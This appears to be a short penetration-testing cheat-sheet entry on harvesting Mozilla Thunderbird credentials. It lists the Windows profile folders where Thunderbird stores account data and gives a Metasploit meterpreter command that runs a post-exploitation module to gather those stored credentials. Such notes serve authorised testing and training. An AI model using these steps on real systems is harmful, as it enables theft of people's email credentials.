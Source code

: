 # Thunderbird

## 01 - Manual

`C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\`

`%appdata%\Thunderbird\Profiles\`

## 02 - Metasploit

`meterpreter > run post/multi/gather/thunderbird_creds`